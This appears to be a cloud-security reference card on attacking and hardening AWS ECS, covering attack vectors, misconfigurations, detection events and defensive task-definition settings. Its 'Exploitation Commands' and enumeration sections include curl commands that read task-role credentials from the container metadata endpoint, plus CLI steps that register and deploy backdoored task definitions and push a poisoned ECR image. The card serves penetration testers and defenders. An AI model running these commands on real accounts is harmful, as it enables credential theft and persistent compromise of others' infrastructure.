

#  AWS ECS Security



> **Category**: CONTAINERS

Elastic Container Service (ECS) orchestrates Docker containers on AWS. Task roles provide AWS credentials to containers. Privileged containers and metadata endpoints are key attack vectors.

## Quick Stats

| Risk Level | Or EC2 | Unit of Work | Task Roles |
| --- | --- | --- | --- |
| **CRITICAL** | **Fargate** | **Tasks** | **IAM** |

## Service Overview

### EC2 Launch Type

Containers run on EC2 instances you manage. Full control over underlying infrastructure. ECS agent manages container placement and lifecycle.

> Attack note: Container escape gives access to EC2 instance role and all containers on node

### Fargate Launch Type

Serverless container execution. AWS manages infrastructure. More isolated but still vulnerable to task role abuse and metadata attacks.

> Attack note: Task metadata endpoint (169.254.170.2) exposes credentials without IMDSv2 protection

## Security Risk Assessment

`█████████░` **8.5/10** (CRITICAL)

ECS container compromise leads to task role credential theft. Privileged containers enable escape to host. ECR image poisoning can backdoor entire deployments.

## ⚔️ Attack Vectors

### Container Attacks

- Over-privileged task roles
- Privileged container escape
- Task metadata service (169.254.170.2)
- Secrets in environment variables
- Vulnerable container images

### Infrastructure Attacks

- EC2 instance role via container escape
- ECR image poisoning
- Task definition manipulation
- Service hijacking via update
- Sidecar container injection

## ⚠️ Misconfigurations

### Task Definition Issues

- Task role with admin access
- privileged: true in container def
- Hardcoded secrets in environment
- No readonlyRootFilesystem
- Running as root user

### Cluster Issues

- Public ECR repositories
- No network mode isolation (bridge)
- Disabled CloudWatch logging
- No image scanning on push
- Missing Container Insights

## 🔍 Enumeration

**List Clusters**
```bash
aws ecs list-clusters
```

**List Services**
```bash
aws ecs list-services --cluster my-cluster
```

**Get Task Definition**
```bash
aws ecs describe-task-definition \\
  --task-definition my-task
```

**Steal Task Creds (from container)**
```bash
curl http://169.254.170.2\\
$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

## 📈 Privilege Escalation

### Credential Theft

- Steal task role credentials via metadata
- Access EC2 instance profile (EC2 launch)
- Extract secrets from environment
- Read mounted secrets volumes
- Intercept inter-container traffic

### Container Escape

- Privileged container → host access
- hostPath volume mounts
- CAP_SYS_ADMIN abuse
- Docker socket mount exploitation
- Kernel exploits from container

> **Key Target:** Task metadata endpoint at 169.254.170.2 provides credentials without IMDSv2 hop limit protection.

## 🔗 Persistence

### Container Persistence

- Backdoor container image in ECR
- Register malicious task definition
- Add sidecar container for C2
- Modify entrypoint/command
- Create scheduled ECS task

### Infrastructure Persistence

- Update service with backdoored task
- Modify launch template for EC2 instances
- Add persistence to EFS mounts
- Poison base images in ECR
- EventBridge rule to maintain access

## 🛡️ Detection

### CloudTrail Events

- RunTask - task executed
- RegisterTaskDefinition - new task def
- UpdateService - service modified
- DescribeTaskDefinition - recon
- CreateService - new service created

### Indicators of Compromise

- Task role credentials used outside ECS
- New task definitions registered
- Service updates to different images
- ECR image pushes from unknown sources
- Container Insights anomalies

## Exploitation Commands

**Register Malicious Task Definition**
```bash
aws ecs register-task-definition \\
  --cli-input-json file://backdoor-task.json
```

**Update Service with Backdoor**
```bash
aws ecs update-service \\
  --cluster my-cluster \\
  --service my-service \\
  --task-definition backdoor-task:1
```

**Run One-Off Malicious Task**
```bash
aws ecs run-task \\
  --cluster my-cluster \\
  --task-definition backdoor-task \\
  --launch-type FARGATE
```

**Get Task Metadata (from container)**
```bash
curl http://169.254.170.2/v4/metadata
```

**Steal Task Credentials (from container)**
```bash
curl http://169.254.170.2\\
$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

**Push Backdoored Image to ECR**
```bash
docker tag backdoor:latest \\
  123456789012.dkr.ecr.us-east-1.amazonaws.com/app:latest
docker push ...
```

## Policy Examples

### ❌ Dangerous - Insecure Task Definition

```json
{
  "taskRoleArn": "arn:aws:iam::123456789012:role/AdminRole",
  "containerDefinitions": [{
    "privileged": true,
    "user": "root",
    "environment": [
      {"name": "DB_PASSWORD", "value": "hardcoded123"}
    ]
  }]
}
// Privileged, root, hardcoded secrets
```

*Privileged container, root user, hardcoded secrets - full compromise*

### ✅ Secure - Hardened Task Definition

```json
{
  "taskRoleArn": "arn:aws:iam::123456789012:role/LeastPrivilege",
  "containerDefinitions": [{
    "privileged": false,
    "user": "1000:1000",
    "readonlyRootFilesystem": true,
    "secrets": [
      {"name": "DB_PASSWORD",
       "valueFrom": "arn:aws:secretsmanager:..."}
    ]
  }]
}
```

*Non-privileged, non-root, secrets from Secrets Manager*

## Defense Recommendations

### 🔐 Least Privilege Task Roles

Scope task roles to exact permissions needed for the workload.

```bash
"Resource": "arn:aws:s3:::app-bucket/data/*"
```

### 🚫 Disable Privileged Mode

Never run containers as privileged. Use readonlyRootFilesystem.

```bash
"privileged": false,
"readonlyRootFilesystem": true
```

### 🔑 Use Secrets Manager

Never hardcode secrets in task definitions or environment variables.

```bash
"secrets": [{"name": "DB_PASS",
  "valueFrom": "arn:aws:secretsmanager:..."}]
```

### 🔍 ECR Image Scanning

Scan images for vulnerabilities on push to ECR.

```bash
aws ecr put-image-scanning-configuration \\
  --repository-name app \\
  --image-scanning-configuration scanOnPush=true
```

### 🌐 Use awsvpc Network Mode

Isolate task networking with dedicated ENIs.

```bash
"networkMode": "awsvpc"
```

### 📊 Enable Container Insights

Monitor container performance and security metrics.

```bash
aws ecs update-cluster-settings \\
  --cluster my-cluster \\
  --settings name=containerInsights,value=enabled
```

---

*AWS ECS Security Card*

*Always obtain proper authorization before testing*
